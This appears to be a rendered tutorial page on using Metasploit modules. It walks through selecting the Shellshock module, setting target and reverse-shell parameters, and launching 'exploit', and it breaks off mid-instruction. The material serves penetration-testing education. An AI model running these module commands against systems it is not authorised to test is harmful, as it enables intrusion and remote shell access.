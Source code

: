 To work effectively with Metasploit modules, follow these core concepts and examples. Any Metasploit version 5 or 6 will have menus and screens similar to those shown here.

### Entering Module Context

Once you have entered the context of a module using the `use` command followed by the module name, you will need to set parameters. Use the `show options` command to list the required parameters.

```plaintext
use exploit/linux/http/apache_mod_cgi_bash_env_exec
show options
```

### Setting Parameters

Set parameters using the `set` command:

```plaintext
set RHOSTS 192.168.1.10
set RPORT 8080
```

### Common Parameters

- **RHOSTS**: Target IP address or range.
- **RPORT**: Target application port.
- **PAYLOAD**: Payload to use with the exploit.
- **LHOST**: Attacking machine IP address.
- **LPORT**: Port for the reverse shell.

### Global Parameters

Use `setg` to set global values for all modules:

```plaintext
setg RHOSTS 192.168.1.10
```

### Clearing Parameters

Clear parameters using `unset` or `unset all`:

```plaintext
unset RHOSTS
unset all
```

### Running Modules

Launch the module using `exploit` or `run`:

```plaintext
exploit
```

Background the session with `-z`:
